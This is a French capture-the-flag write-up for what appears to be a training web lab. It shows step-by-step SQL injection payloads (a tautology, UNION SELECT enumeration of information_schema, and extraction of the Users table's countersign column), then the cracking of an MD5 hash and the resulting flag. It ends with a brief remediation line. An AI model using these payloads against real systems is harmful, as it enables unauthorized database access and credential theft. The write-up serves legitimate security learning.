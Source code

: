 sur http://192.168.99.102/?page=member

On peu voir un field pour rechercher par Id.

Si on entre 1 OR 1 = 1:
First name: Flag
Surname : GetThe

On peux voir qu'un first name est "Flag"

Avec la requete suivante: 
```sql
1 AND MID(VERSION(),1,1) = 5;
```

On obtiens la version de mysql... pas utile 


Avec la requete suivante: 
```sql
1 UNION SELECT * FROM Users
```

on obtiens une erreur: Table 'Member_Sql_Injection.Users' doesn't exist
on en deduis le nom de la db: Member_Sql_Injection


```sql
1 UNION SELECT * FROM Users
1 AND 1=2 UNION ALL SELECT * FROM information_schema.columns
```

Nous avons une erreur:
The used SELECT statements have a different number of columns

parce que "select * from ..." est la sélection de toutes les colonnes du tableau des users.
c'est pourquoi lorsque nous avons essayé d'unir plus de 2 colonnes avec elle, nous avons cette erreur.

En essayant de select que deux colonnes avec cette commande:
```sql
1 AND 1=2 UNION ALL SELECT table_name, column_name FROM information_schema.columns
```

Nous affiche toutes les tables et colonnes
On peux voir la table qui nous interesse ici c'est: Users
qui contient les colonnes suivantes:
user_id
first_name
last_name
town
country
planet
Commentaire
countersign

testons alors les deux dernieres qui ont l'air suspectes.... :

```sql
1 AND 1 = 2 UNION ALL SELECT countersign, Commentaire FROM users
```
bingo !


```
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !


5ff9d0165b4f92b14994e5c685cdce28: FortyTwo
=> lower + sh256 = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

### Amelioration

Gerer les sqli, protegers les strings envoyer en request.



